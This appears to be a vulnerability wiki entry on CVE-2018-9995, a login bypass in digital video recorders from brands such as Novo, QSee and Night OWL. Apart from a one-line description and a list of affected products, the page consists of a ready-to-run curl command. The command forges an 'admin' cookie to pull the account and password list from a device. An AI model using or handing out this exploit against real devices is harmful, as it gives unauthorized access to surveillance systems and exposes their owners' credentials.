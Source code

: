 # DVR Login Bypass Vulnerability CVE-2018-9995

## Vulnerability Description

DVR, full name is Digital Video Recorder, that is, digital video recorder. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Novo</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CeNova</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">QSee</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Pulnix</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">XVR 5 in 1 (title: "XVR Login")</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Securus, - Security. Never Compromise !! -</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Night OWL</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DVR Login</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HVR Login</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MDVR Login</span>

## Vulnerability reappears

Use the curl command to obtain the account password

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/dvr-1.png)
